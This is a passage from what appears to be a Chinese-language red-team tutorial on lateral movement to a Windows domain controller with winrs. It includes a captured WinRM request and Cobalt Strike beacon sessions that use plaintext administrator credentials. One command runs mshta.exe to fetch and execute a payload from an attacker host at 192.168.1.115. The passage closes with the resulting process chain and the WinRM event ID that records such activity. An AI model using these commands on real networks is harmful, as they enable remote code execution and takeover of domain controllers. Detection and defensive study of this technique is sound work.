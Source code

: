 ```
Date: Mon, 15 Feb 2021 04:32:58 GMT
Content-Length: 0


POST /wsman?PSVersion=5.1.14393.1884 HTTP/1.1
Connection: Keep-Alive
Content-Type: multipart/encrypted;protocol="application/HTTP-Kerberos-session-encrypted";boundary="Encrypted Boundary"
User-Agent: Microsoft WinRM Client
Content-Length: 8295
Host: dc.one.com:5985

--Encrypted Boundary
Content-Type: application/HTTP-Kerberos-session-encrypted
OriginalContent: type=application/soap+xml;charset=UTF-8;Length=7994
--Encrypted Boundary
Content-Type: application/octet-stream
```

我们可以通过 winrs 来进行横向移动。这里通过 -u 来指定用户名 -p 指定密码

```
beacon> shell winrs -r:dc  -u:one\administrator -p:q123456. "cmd.exe /c mshta.exe http://192.168.1.115:80/e.ext"
[*] Tasked beacon to run: winrs -r:dc  -u:one\administrator -p:q123456. "cmd.exe /c mshta.exe http://192.168.1.115:80/e.ext"
[+] host called home, sent: 129 bytes
beacon> shell winrs -r:dc  -u:one\administrator -p:q123456. "cmd.exe /c hostname"
[*] Tasked beacon to run: winrs -r:dc  -u:one\administrator -p:q123456. "cmd.exe /c hostname"
[+] host called home, sent: 98 bytes
[+] received output:
dc

beacon> shell hostname
[*] Tasked beacon to run: hostname
[+] host called home, sent: 39 bytes
[+] received output:
ex
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAYOnUs2icDhD2rCZqR5EjVmh2KHenmq6WaibD7gmLibbloxUIDwKhraR9HO216Yl1FbnHQwjZeXHeNA/640?wx_fmt=png)

成功执行命令的远程过程链如下：  

```
svchost.exe (DcomLaunch)-> winrshost.exe -> cmd.exe [/c remote command] -> [remote command/binary]
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAYOnUs2icDhD2rCZqR5EjVmaSSnyAzqhNEiazQBk7IgKamQS4X0tZeZDKApjJiaS09YohaEKiaxiaCnTA/640?wx_fmt=png)

此外，Winrs 事件作为 Microsoft-Windows-WinRM / Operational（事件 ID 91）记录在远程主机上。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAYOnUs2icDhD2rCZqR5EjVm18LwnWGxVLdmgTcibcZwiaKibva3qZYsb4HklpnHZmpPq2bSpEAWItdkQ/640?wx_fmt=png)

